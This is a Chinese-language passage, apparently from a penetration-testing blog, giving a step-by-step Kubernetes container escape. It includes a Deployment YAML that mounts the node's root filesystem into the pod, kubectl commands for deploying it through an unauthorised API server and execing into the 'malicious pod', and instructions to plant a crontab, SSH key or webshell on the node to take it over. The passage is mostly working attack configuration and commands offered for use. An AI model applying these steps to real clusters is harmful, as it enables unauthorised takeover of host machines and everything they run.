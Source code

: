 ```plain
metadata:
  name: nginx-deployment
  labels:
    app: nginx-test
spec:
  replicas: 1
  selector:
    matchLabels:
      app: nginx
  template:
    metadata:
      labels:
        app: nginx
    spec:
      containers:
      - image: nginx
        name: container
        volumeMounts:
        - mountPath: /mnt
          name: test-volume
      volumes:
      - name: test-volume
        hostPath:
          path: /
```

将以上文本写入到一个 yaml 文件中，然后执行

```plain
kubectl apply -f xxxxx.yaml
如果是 api server 未授权打进去的，可能要通过-s 参数设置一下 api server 的 ip 和地址：kubectl -s http://master_ip:8080 command

这里再多嘴一句 kubectl apply 和 kubectl create 这两个命令的区别
两个命令都可以用于创建 pod，apply 更倾向于”维护资源“，可以用于更新已有 Pod；而 create 更倾向于”直接创建“，不管三七二十一给我创建就完事了
简而言之，当一个资源已经存在时，用 create 会报错，而 apply 不会报错
——————ref:https://stackoverflow.com/questions/47369351/kubectl-apply-vs-kubectl-create
```

恶意容器就创建好了

创建好了后使用命令 kubectl get pods 获取恶意 pod 的名字

然后使用命令 kubectl exec -it evilpodname /bin/bash 进入 pod 内部 shell，然后向挂载到 Pod 内部的 Node 根目录中写入恶意 crontab、ssh 公钥、webshell 即可拿到 node 的 shell。

大致流程一张图表示如下

[![image-20220311115835649](assets/1698894613-17247b420701f8106ca5af7e34abf7ac.png)](https://storage.tttang.com/media/attachment/2022/03/11/d4b20b14-c752-4cb3-b14f-d53f2e5b3050.png)
